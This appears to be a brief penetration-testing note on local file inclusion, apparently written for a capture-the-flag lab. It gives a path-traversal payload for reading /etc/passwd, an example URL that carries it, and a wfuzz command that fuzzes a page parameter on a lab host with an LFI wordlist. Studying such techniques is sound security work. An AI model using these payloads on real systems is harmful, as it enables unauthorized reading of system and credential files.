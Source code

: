 

# LFI

Try to open  ../../../../../etc/passwd

http://target/item?id=../../../../../etc/passwd


wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=FUZZ --hw=0
